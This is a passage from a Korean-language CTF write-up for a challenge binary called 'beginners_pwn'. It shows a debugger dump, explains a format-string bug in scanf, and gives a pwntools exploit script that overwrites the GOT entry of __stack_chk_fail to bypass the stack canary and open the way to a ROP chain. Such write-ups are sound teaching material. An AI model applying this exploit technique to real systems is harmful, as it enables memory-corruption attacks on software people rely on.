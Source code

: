 `rsp+0x8`에는 `__stack_chk_fail()`의 GOT 주소가 들어가 있고, 중간에 `NULL`이 있기 때문에 format string은 `"%s %7$d"`에서 끊긴다.

```shell
[----------------------------------registers-----------------------------------]
...
RSI: 0x7ffe7c256b10 --> 0x7ffe7c256c00 --> 0x1 
...
[-------------------------------------code-------------------------------------]
   0x40122b <main+40>:	lea    rax,[rbp-0x20]
   0x40122f <main+44>:	mov    rdi,rax
   0x401232 <main+47>:	mov    eax,0x0
=> 0x401237 <main+52>:	call   0x401040 <__isoc99_scanf@plt>
   0x40123c <main+57>:	mov    eax,0x0
   0x401241 <main+62>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x401245 <main+66>:	xor    rdx,QWORD PTR fs:0x28
   0x40124e <main+75>:	je     0x401255 <main+82>
Guessed arguments:
arg[0]: 0x7ffe7c256b00 --> 0x64243725207325 ('%s %7$d')
```

이 상태에서 `scanf()`에 문자열과 정수를 입력하면, 문자열은 `rsi`가 가리키는 위치에 들어가는데, 이 위치는 `readn()`에서 입력한 문자열 바로 뒤이고, 정수는 `__stack_chk_fail()`의 GOT에 들어갈 것이다. 문자열은 무한히 길게 입력할 수 있기 때문에 canary를 넘어서 return address까지 덮을 수 있고, ROP chain도 무제한으로 구성할 수 있다.

### GOT overwrite

`__stack_chk_fail()`의 GOT를 `main+82`로 덮어서, 그대로 `leave; ret`이 실행되도록 해 보자. canary check를 그냥 건너뛰는 느낌이다.

```python
from pwn import *

r = process("./beginners_pwn")

stackchk_got = 0x404018 # GOT address of __stack_chk_fail()
main = 0x401255 # address of "leave; ret" in main()

payload = "%" + "s %7$d"
payload = payload.ljust(8, '\x00')
payload += p64(stackchk_got)

r.sendline(payload)

payload = "A" * 0x18
payload += " "
payload += str(main)
pause()
r.sendline(payload)

r.interactive()
```

```shell
gdb-peda$ x/gx 0x404018
0x404018:	0x0000000000401255
```
